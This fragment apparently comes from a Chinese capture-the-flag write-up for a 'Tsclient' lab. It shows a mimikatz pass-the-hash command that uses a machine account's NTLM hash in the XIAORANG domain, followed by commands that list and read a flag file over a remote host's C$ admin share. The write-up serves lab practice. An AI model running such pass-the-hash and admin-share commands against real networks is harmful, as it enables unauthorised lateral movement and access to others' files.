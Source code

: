 hash传递

```
sekurlsa::pth /user:WIN2016$ /domain:XIAORANG /ntlm:7eadae8fd514bb09faf283be67f8f046
```

![image-20230806182310984](img/春秋云镜-Tsclient/image-20230806182310984.png)

dir看flag

```
dir \\172.22.8.15\c$\Users\Administrator\flag
type \\172.22.8.15\c$\Users\Administrator\flag\flag03.txt
```
